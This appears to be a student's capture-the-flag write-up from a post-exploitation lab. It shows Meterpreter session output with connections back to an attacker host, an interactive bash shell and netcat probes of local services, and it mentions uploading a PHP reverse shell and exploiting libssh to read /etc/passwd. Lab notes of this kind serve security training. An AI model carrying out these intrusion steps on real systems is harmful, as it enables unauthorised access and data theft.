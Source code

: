 `meterpreter > netstat -a`

`Connection list`
===============

    Proto  Local address        Remote address       State        User   Inode  PID/Program name
    -----  -------------        --------------       -----        ----   -----  ----------------
    tcp    127.0.0.11:36653     0.0.0.0:*            LISTEN       65534  0
    tcp    0.0.0.0:80           0.0.0.0:*            LISTEN       0      0
    tcp    0.0.0.0:21           0.0.0.0:*            LISTEN       65534  0
    tcp    127.0.0.1:8888       0.0.0.0:*            LISTEN       0      0
    tcp    192.212.176.3:55510  192.212.176.2:4433   ESTABLISHED  33     0
    tcp    192.212.176.3:33304  192.212.176.2:4444   ESTABLISHED  33     0
    tcp    192.212.176.3:80     192.212.176.2:39401  CLOSE_WAIT   33     0
    udp    127.0.0.11:46362     0.0.0.0:*                         65534  0

---

	meterpreter > shell
	Process 119 created.
	Channel 6 created.
	
	/bin/bash -i
	bash: cannot set terminal process group (40): Inappropriate ioctl for device
	bash: no job control in this shell
	www-data@target1:/$ nc 127.0.0.11 36653
	nc 127.0.0.11 36653
	^C
	Terminate channel 6? [y/N]  N
	/bin/bash -i
	www-data@target1:/$ nc 127.0.0.1 8888
	nc 127.0.0.1 8888
	Enter the secret passphrase: letmein
	FLAG2{b31c8fc5a8524b8b99a00292a4256b1e}




We found a share called: site-uploads so we upload a php reverse shell and got the flag there.....

FLAG3{bfaba7e2b5e44348b4c5c44c0b7a7488}



FLAG4{c5a45aa95dc6431eaf5cf4cd38664d6e}




#### Host & Network Penetration Testing: Post-Exploitation CTF 1

Found after exploiting libssh exploit on the first target and in /etc/passwd file:
FLAG1_8d0c5982924b490e8ee59b2ef6634a91

Found in: cat /etc/group
FLAG2_100ea9ef48d542fe95925ee6be1444b4


